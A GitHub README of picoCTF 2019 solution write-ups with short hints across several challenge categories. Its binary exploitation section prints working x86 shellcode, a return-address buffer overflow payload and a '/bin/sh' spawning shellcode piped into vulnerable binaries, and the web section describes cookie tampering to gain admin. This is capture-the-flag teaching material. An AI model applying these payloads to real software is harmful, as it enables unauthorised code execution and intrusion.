 # picoCTF

I will update this as I work through all of the challenges. I highly recommend trying them on your own before reading my solutions.

## General Skills

#### 2 Warm
This type of problem is really easy to solve with python. Open python in your terminal and use ```bin()``` to convert the number to binary.

#### Let's Warm Up
This is another one that is really easy with python. When converting hexadecimal to ASCII my method of choice is to use ```chr()```

#### Warmed Up
Another easy python challenge to convert to decimal ```int('0x3D', 16)```

#### Bases
If you haven't noticed already, python is your friend. This one I solved using ```base64.b64decode(encoded_string)```

#### First Grep
Easy grep, solved using ```cat file | grep "pico"```

#### Resources
Read the source code.

#### strings it
The name gives it away, but use strings to find the flag for this one ```strings strings | grep "pico"```

#### what's a net cat?
This one is super simple. Use ```netcat 2019shell1.picoctf.com 12265``` to connect to the server and retrieve the flag.

## Forensics

#### Glory of the Garden
I went straight to the basics on this one. Flags are often hidden at the end of the image, and since we know the flag format we can search for it with ```strings garden.jpg | grep "pico"```

#### unzip
Another easy one, just unzip.

## Cryptography

#### The Numbers
This is another one where knowing the flag format helps us out significantly. We can see ```{ }``` which is part of our flag format, and can also see that none of the numbers are greater than 26. This probably means it's a simple substitution cypher. To solve this I wrote a python script that takes the alphabet and the provided numbers to print out the flag. ```python3 the_numbers.py```

#### 13
This is a caesar cipher, so just decode like any other.

#### Easy 1
This is vigenere cipher which we can pretty much tell by the provided table. To solve this one I wrote a python script ```python3 easy1.py```

#### caesar
As the name implies this is another caesar cipher. The trick to this one is finding the correct ROT.

## Binary Exploitation

#### handy-shellcode
This wasn't too hard but I always have the most fun with these. There's no overflow required for this challenge, just basic shellcode really. The first thing I did was convert the path of the file to shellcode:

<code>
\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f
</code><br/><br/>
 
Then I completed it by adding the instructions to read the file, and executing the shellcode:
  
<code>
echo -e '\x31\xc9\x51\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f\x31\xc0\xb0\x05\x89\xe3\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe1\x31\xd2\xfe\xc2\xcd\x80\x50\x53\x31\xc0\xb0\x04\x31\xdb\xfe\xc3\xcd\x80\x5b\x58\x83\xf8\x01\x74\xe1\xb0\x06\xcd\x80\xb0\x01\xcd\x80' | ./vuln
</code>

#### practice-run-1
This one is too simple to need an explanation.

#### OverFlow 0
This one requires a basic overflow to retreive the flag. We can see that the buffer is 128 bytes, so we'll feed it more than that to crash the program and retreive the flag.

#### OverFlow 1
The first thing you want to do for this challenge is look over the source code in ```vuln.c```. There are a few things to note here. First of all we can see that the buffer size is 64 bytes. We can see that when we run the program it gives us the return memory address, and also that there is a ```flag()``` function that's never called. It looks like we'll have to use a buffer overflow to execute the ```flag()``` function and get our flag. Another thing to note is what is actually allowing this buffer overflow to happen. Since the program is using ```gets(buf)``` it doesn't actually care about the buffer, it just keeps reading until a new line which ultimately overflows it.

To get started we'll want to get some basic memory information. Since this one gives us the return address as part of the main ```vuln()``` function we can run the program and enter something less than 64 bytes to see normal behaviour. After doing this we can see that the normal address is ```0x8048705```. Now we'll look at the program to find the address of the flag function. To do this I opened the vuln program with ```gdb vuln``` and examined the ```flag()``` function with ```disas flag```. We can now see that this address is ```0x080485e6```. One last thing is that since this is Intel architecture we'll need to convert to little endian before running anything, ```\xe6\x85\x04\x08```.

It took a little bit of playing around to retrieve the flag, but I've provided my code below. One tip while doing this is to alternate the letters that you're using for your buffer. Since the program prints the return memory address after execution, you can use that to see where you're overwriting the memory. In my case I noticed 44 in the address which is ```D (0x44)```, so I knew to shorten my string by a few bytes.

<code>
cat <(echo -e '666666666666666666666666666666666666666666666666666666666666666AAAABBBBCCCCD\xe6\x85\x04\x08') - | ./vuln
</code>

#### slippery-shellcode
I'll add more info later but will add super basic methodology along with my code below.

I used python generate 256 bytes of data, then appended my shellcode using the pwn library ```asm(shellcraft.i386.linux.sh())```

After that I used the same method as OverFlow1 to execute my code.

<code>cat <(echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAjhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80') - | ./vuln</code>


## Web Exploitation

#### Insp3ct0r
This one really doesn't need much info. Read all of the source code.

#### logon
If you view the session cookies for this web app you'll see there is a flag for admin that is currently set to false. If you edit the cookie and set this to true you'll be able to retrive the flag.

#### where are the robots
This is web exploitation 101. Always check the ```robots.txt``` file.

## Reverse Engineering

#### vault-door-training
Source code is your friend.

#### dont-use-client-side
This is a lot like the hackthebox signup page. If you have a very basic understanding of JavaScript you'll be able to decode the 'algorithm' for the password verification.

#### vault-door-1
This challenge involves reading the Java source code and reverse engineering the algorithm being used to validate the password.
